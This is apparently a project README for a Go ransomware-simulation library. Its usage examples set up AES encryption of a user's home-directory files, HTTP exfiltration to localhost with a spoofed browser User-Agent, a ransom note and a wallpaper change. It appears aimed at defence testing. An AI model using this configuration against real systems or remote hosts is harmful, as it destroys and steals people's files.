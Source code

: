 # Ransimware

[![Yum](https://img.shields.io/badge/-Buy%20me%20a%20cookie-blue?labelColor=grey&logo=cookiecutter&style=for-the-badge)](https://www.buymeacoffee.com/mjwhitta)

[![Go Report Card](https://goreportcard.com/badge/github.com/mjwhitta/ransimware?style=for-the-badge)](https://goreportcard.com/report/github.com/mjwhitta/ransimware)
![License](https://img.shields.io/github/license/mjwhitta/ransimware?style=for-the-badge)

## What is this?

This Go module allows you to simulate ransomware. Use
https://ransomlook.io for ideas on domains and IOCs.

## How to install

Open a terminal and run the following:

```
$ go get --ldflags "-s -w" --trimpath -u \
    github.com/mjwhitta/ransimware
```

## Usage

Minimal example:

```
package main

import (
    "os"
    "path/filepath"

    rw "github.com/mjwhitta/ransimware"
)

func main() {
    var e error
    var home string
    var sim *rw.Simulator

    // Try to get home directory
    if home, e = os.UserHomeDir(); e != nil {
        panic(e)
    }

    // Create simulator with 32 worker threads
    sim = rw.New(32)

    // Since no encrypt function is defined, the default behavior is
    // to do nothing

    // Since no exfil function is defined, the default behavior is to
    // do nothing

    // Since no notify function is defined, the default behavior is to
    // do nothing

    // Target the user's Desktop directory
    if e = sim.Target(filepath.Join(home, "Desktop")); e != nil {
        panic(e)
    }

    // Run the simulator
    if e = sim.Run(); e != nil {
        panic(e)
    }
}
```

More complex example:

```
package main

import (
    "os"
    "path/filepath"
    "strings"

    rw "github.com/mjwhitta/ransimware"
)

func main() {
    var e error
    var home string
    var sim *rw.Simulator

    // Try to get home directory
    if home, e = os.UserHomeDir(); e != nil {
        panic(e)
    }

    // Create simulator with 32 worker threads
    sim = rw.New(32)

    // Include interesting extensions
    sim.Include(`\.(avi|mkv|mov|mp[34]|mpeg4?|ogg|wav)$`) // vids
    sim.Include(`\.(bmp|gif|ico|jpe?g|png|tiff)$`)        // imgs
    sim.Include(`\.(docx|pptx|txt|xlsx|zip)$`)            // docs
    sim.Include(`\.(bat|ps1|xml)$`)                       // misc

    // Ignore directories
    sim.Exclude(`All\sUsers|AppData.Local|cache2.entries|Games`)
    sim.Exclude(
        `Local\sSettings|Low.Content\.IE5|Program(Data|\sFiles)`,
    )
    sim.Exclude(`Tor\sBrowser|User\sData.Default.Cache|Windows`)

    // Ignore AnyConnect cache/config
    sim.Exclude(`\.cisco|Cisco`)

    // Ignore extensions
    sim.Exclude(`\.(bin|dll|exe|in[fi]|lnk|ransimware|sys)$`)

    // Set encryption method to AES using provided helper function
    sim.Encrypt = rw.AESEncrypt("password")

    // Set exfil method to be HTTP using provided helper function
    sim.Exfil, e = rw.HTTPExfil(
        "http://localhost:8080",
        map[string]string{
            "User-Agent": strings.Join(
                []string{
                    "Mozilla/5.0 (Windows NT 10.0; Win64; x64)",
                    "AppleWebKit/537.36 (KHTML, like Gecko)",
                    "Chrome/84.0.4147.105 Safari/537.36",
                },
                " ",
            ),
        },
    )
    if e != nil {
        panic(e)
    }

    // Notify user by changing wallpaper and leaving a ransom note,
    // using the provided helper functions
    sim.Notify = func() error {
        rw.RansomNote(
            filepath.Join(home, "Desktop", "ransomnote.txt"),
            "This is a ransomware simulation.",
        )()

        rw.WallpaperNotify(
            filepath.Join(home, "Desktop", "ransom.png"),
            rw.DefaultPNG,
            rw.DesktopStretch,
            false,
        )()

        return nil
    }

    // Target the user's home directory
    if e = sim.Target(home); e != nil {
        panic(e)
    }

    // Run the simulator
    if e = sim.Run(); e != nil {
        panic(e)
    }
}
```

## Links

- [Source](https://github.com/mjwhitta/ransimware)

## TODO

- Provide more helper functions
    - FTP exfil
